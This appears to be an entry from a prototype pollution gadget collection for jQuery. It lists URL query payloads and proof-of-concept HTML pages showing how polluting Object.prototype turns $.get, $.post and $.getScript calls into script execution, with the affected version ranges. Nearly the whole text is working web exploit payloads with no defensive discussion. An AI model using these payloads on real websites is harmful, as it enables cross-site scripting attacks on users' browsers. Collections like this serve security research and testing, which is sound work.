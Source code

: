 ## jQuery 

URL: https://jquery.com/

### PoC
#### $.get jQuery >= 3.0.0
```
?__proto__[url][]=data:,alert(1)//&__proto__[dataType]=script
```

```html
<script src=https://code.jquery.com/jquery-3.5.1.js></script>
<script> 
  Object.prototype.url = ['data:,alert(1)//'];   
  Object.prototype.dataType = 'script';
</script>      
<script>
  $.get('https://google.com/'); 
  $.post('https://google.com/'); 
</script>
```

#### $.getScript jQuery >= 3.4.0
```
?__proto__[src][]=data:,alert(1)//
```

```html
<script src=https://code.jquery.com/jquery-3.5.1.js></script>
<script>
  Object.prototype.src = ['data:,alert(1)//']
</script>
<script>
  $.getScript('https://google.com/')
</script>
```

#### $.getScript jQuery 3.0.0 - 3.3.1

```
?__proto__[url]=data:,alert(1)//
```

```html
<script/src=https://code.jquery.com/jquery-3.3.1.js></script>
<script>
  Object.prototype.url = 'data:,alert(1)//'
</script>
<script>
  $.getScript('https://google.com/')
</script>
```
